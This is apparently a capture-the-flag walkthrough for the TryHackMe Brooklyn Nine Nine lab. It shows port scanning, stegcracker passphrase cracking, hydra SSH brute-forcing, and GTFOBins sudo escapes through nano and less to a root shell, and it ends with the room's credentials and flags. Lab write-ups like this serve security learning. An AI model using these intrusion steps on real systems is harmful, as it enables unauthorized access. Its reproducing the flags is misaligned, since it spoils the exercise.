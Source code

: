 ###### This room is aimed for beginner level hackers but anyone can try to hack this box. 
Room: https://tryhackme.com/room/brooklynninenine
##

**sudo nmap** -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Method 1  

We can access the web page hosted on the machine by navigating to the machine IP.  
Inspecting the page source code, we get a hint.  
```
<!-- Have you ever heard of steganography? -->
```

After we download the background image, we see that running steghide with no passphase returns us an error.  
```
steghide: can not uncompress data. compressed data is corrupted.
```

We can run **stegcracker** to bruteforce possible passphrases using a wordlist.  
**stegcracker** brooklyn99.jpg
```
Successfully cracked file with password: admin
```
After using steghide with the admin passphase, we get the data extracted to a file called note.txt.  
**steghide** extract -sf brooklyn99.jpg

Contents of **note.txt**
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

The next step is to connect to the machine using the ssh credentials we've got.    

**ssh** holt@xx.xx.xxx.xx using the password found above.   

After running the **sudo -l** command, we see that we can run **nano** as root.     
According to **gtfobins**, we can exploit this to get permanent root access using the following commands  
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##
#### Method 2

There's a FTP server running on the target machine that supports anonymous login. (credentials: anonymous:anonymous)  
By connecting on the FTP server, we get access to a file called **note_to_jake.txt**.  
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

This note reveals us 3 possible users: amy, jake and holt.   
However, Jake's password seems weak so we can try to bruteforce the ssh credentials.  

**sudo hydra** -l jake -P /usr/share/wordlists/rockyou.txt ssh   
```
[22][ssh] host: xx.xx.xxx.xx  login: jake   password: 987654321
```

After connecting to the target machine using jake's credentials, we see that we have acces to the **less** command as sudo.  
According to **gtfobins**, we can exploit this using the following commands:
```
sudo less /etc/profile
!/bin/sh
```
##


##
The user flag is located in holt's home directory and is **ee11cbb19052e40b07aac0ca060c23ee**.  
The root flag is located at /root directory and is **63a9f0ea7bb98050796b649e85481845**  
